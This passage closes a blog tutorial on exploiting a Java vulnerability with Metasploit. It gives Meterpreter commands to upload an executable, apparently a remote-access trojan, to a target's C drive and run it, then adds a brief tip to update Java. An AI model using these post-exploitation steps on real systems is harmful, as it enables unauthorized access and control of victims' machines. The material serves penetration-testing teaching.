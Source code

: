 ‘upload /Test.exe c:\\”, this command will upload the Test.exe from the root(‘file system’ dir) folder of the BT5 to the C drive of the Target.  
  
‘execute -f C:\\Test.exe”, this command will run our uploaded File in the Target.

![](http://35.160.74.13/wp-content/uploads/2012/09/Executing_RAT-300x166.jpg)

**Security Tips:**

Update your JRE to th**e latest version.**

**conclusion:**

I hope this article has given you a good insight into how to use MetaSploit Framework to exploit the Java vulnerability.  I hope this will help you to get into the PenTesting world..!   
  
So, you enjoyed the Tutorial , right?! If you have any suggestion or have doubt, please drop your comment/mail me.



Go to our new site- shankee.com
